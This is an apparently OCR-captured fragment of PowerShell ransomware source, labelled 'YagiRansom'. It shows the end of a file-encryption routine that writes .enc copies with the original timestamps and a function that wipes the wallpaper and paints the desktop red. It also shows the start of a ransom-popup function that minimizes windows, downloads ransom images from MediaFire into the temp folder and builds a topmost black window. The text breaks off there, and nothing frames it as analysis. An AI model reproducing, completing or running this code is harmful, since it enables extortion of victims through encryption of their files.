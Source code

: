 ```ps1 h!
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
function RemoveWallpaper {
$code = @"
using System;
using System.Drawing;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace CurrentUser { public class Desktop {
[DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
private static extern int SystemParametersInfo(int uAction, int uParm, string lpvParam, int fuWinIni);
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern int SetSysColors(int cElements, int[] lpaElements, int[] lpRgbValues);
public const int UpdateIniFile = 0x01; public const int SendWinIniChange = 0x02;
public const int SetDesktopBackground = 0x0014; public const int COLOR_DESKTOP = 1;
public int[] first = {COLOR_DESKTOP};
public static void RemoveWallPaper(){
SystemParametersInfo( SetDesktopBackground, 0, "", SendWinIniChange | UpdateIniFile );
RegistryKey regkey = Registry.CurrentUser.OpenSubKey("Control Panel\\Desktop", true);
regkey.SetValue(@"WallPaper", 0); regkey.Close();}
public static void SetBackground(byte r, byte g, byte b){ int[] elements = {COLOR_DESKTOP};
RemoveWallPaper();
System.Drawing.Color color = System.Drawing.Color.FromArgb(r,g,b);
int[] colors = { System.Drawing.ColorTranslator.ToWin32(color) };
SetSysColors(elements.Length, elements, colors);
RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\Colors", true);
key.SetValue(@"Background", string.Format("{0} {1} {2}", color.R, color.G, color.B));
key.Close();}}}
try { Add-Type -TypeDefinition $code -ReferencedAssemblies System.Drawing.dll }
finally {[CurrentUser.Desktop]::SetBackground(250, 25, 50)}}
function PopUpRansom {
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")  
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") 
[void] [System.Windows.Forms.Application]::EnableVisualStyles() 
Invoke-WebRequest -useb https://www.mediafire.com/view/wlq9mlfrlonlcuk/yagi.png/file -Outfile $env:temp\YagiRansom.jpg
Invoke-WebRequest -useb https://www.mediafire.com/file/s4qcg4hk6bnd2pe/Yagi.ico/file -Outfile $env:temp\YagiRansom.ico
$shell = New-Object -ComObject "Shell.Application"
$shell.minimizeall()
$form = New-Object system.Windows.Forms.Form
$form.ControlBox = $false;
$form.Size = New-Object System.Drawing.Size(900,600) 
$form.BackColor = "Black" 
$form.MaximizeBox = $false 
$form.StartPosition = "CenterScreen" 
$form.WindowState = "Normal"
$form.Topmost = $true
$form.FormBorderStyle = "Fixed3D"
```